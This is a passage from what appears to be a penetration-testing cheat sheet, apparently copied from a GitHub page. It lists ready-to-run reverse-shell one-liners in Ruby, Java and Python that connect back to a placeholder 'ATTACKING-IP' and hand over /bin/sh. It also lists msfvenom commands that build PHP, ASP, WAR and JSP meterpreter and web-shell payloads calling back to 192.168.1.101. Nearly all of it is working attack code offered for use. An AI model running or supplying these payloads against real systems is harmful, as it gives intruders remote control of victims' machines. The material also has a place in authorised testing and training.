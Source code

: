 ### Ruby

```text
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Web-shells - Platform Independent

### PHP

This php-shell is OS-independent. You can use it on both Linux and Windows.

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

### WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

### JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

## Upgrading to Fully Interactive Terminal
